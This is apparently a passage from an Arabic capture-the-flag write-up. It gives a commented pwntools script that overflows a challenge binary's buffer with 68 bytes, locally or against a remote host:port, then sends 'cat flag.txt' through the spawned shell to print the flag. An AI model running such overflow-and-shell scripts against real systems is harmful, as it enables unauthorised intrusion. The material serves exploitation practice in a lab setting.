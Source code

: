 ## نكتب سكربت للاستغلال :
> ```python
> from pwn import *
>context.log_level = 'error'                                          # ; اخفاء رسائل السجلات  ( disable logs messages )
>
># Payload 
>PAYLOAD = b"A" * (60 + 8)
>
># local exploit
>def local__ex(file: string):
>   p = process(file)                                                 # ; . انشاء عمليه وربطها بموصل لتواصل مع العمليه
>   p.recv()                                                          # ; . استقبال البيانات
>   p.sendline(PAYLOAD)                                               # ; . ارسال بيانات بسطر واحد
>   p.interactive()                                                   # ; 
>
># remote exploit 
>def remote_ex(host_port: string, get_flag: bool):
>   HOST, PORT = host_port.split(":")                                 # ; 
>   p = remote(HOST, int(PORT))                                       # ; انشاء عملية تحكم عن بعد عنطريق : (العنوان و المنفذ)
>   p.recv()                                                          # ;              
>   p.sendline(PAYLOAD)                                               # ; 
>   if get_flag:                                                      # ; 
>     p.recvuntil(b"Thanks, Here's a small gift for you <3\n")        # ; استقبال البينات لحتى وصل الجملة المحدده .
>     p.sendline(b"cat flag.txt")                                     # ; 
>     print("Flag: " + p.recv().decode("UTF-8"))                      # ; 
>   else: p.interactive()                                             # ; 
>
>def main():
>   import sys
>   try:
>      
>      content: string = sys.argv[2]
>      get_flag: bool  = True if "-flag" in sys.argv else False 
>      
>      if sys.argv[1] == "-r": remote_ex(content, get_flag)
>      if sys.argv[1] == "-l": local__ex(content)
>
>   except:
>      print("python exploit.py -l file.out        : for locally  exploit")
>      print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>      print("python exploit.py -r HOST:PORT -flag : for get-flag automatically")
>
>if __name__ == '__main__':
>    main()
>```
>
> نجربه محلياََ :
> 
> ![](img/20220814233027.png)